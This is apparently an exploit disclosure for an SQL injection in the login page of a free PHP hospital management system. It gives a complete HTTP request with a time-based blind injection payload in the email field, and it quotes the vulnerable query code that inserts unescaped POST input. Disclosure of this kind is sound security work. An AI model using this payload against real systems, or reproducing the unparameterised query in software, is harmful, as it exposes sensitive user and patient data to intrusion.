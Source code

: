 ```yaml
---
title: Hospital Management System 1.0 SQL Injection
published: true
---
```



- Exploit Title: Hospital Management System - SQL Injection
- Google Dork: N/A
- Application: Hospital Management System
- Date: 26.02.2024
- Bugs: SQL Injection
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A


### Vulnerability Description:

A security vulnerability has been identified in this web application due to the direct inclusion of user-input data into SQL queries, rendering it susceptible to SQL Injection attacks. This vulnerability may enable malicious actors to gain unauthorized access to sensitive information.


### Proof of Concept (PoC):

Below is an example of an attack that a malicious actor could execute to exploit this vulnerability.
```
POST /Vaidya%20Mitra/vm/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost
Connection: close
Referer: http://localhost/Vaidya%20Mitra/vm/login.php
Cookie: _ga=GA1.1.2080672900.1708952048; _gid=GA1.1.1833914840.1708952048; PHPSESSID=18a16tga7k2glh7

useremail=test@123.asd'%2b(select*from(select(sleep(5)))a)%2b'&userpassword=test
```

In this example, the payload appended to the useremail parameter aims to execute a sleep function, intentionally delaying the server's response time. Real-world attacks could involve more malicious operations.

[Request - Response foto](https://i.imgur.com/LxENLBz.png)

### Vulnerable code section:

***

```
/Vaidya%20Mitra/vm/login.php
```

```php
$email = $_POST['useremail'];
$password = $_POST['userpassword'];

$result = $database->query("select * from webuser where email='$email'");
```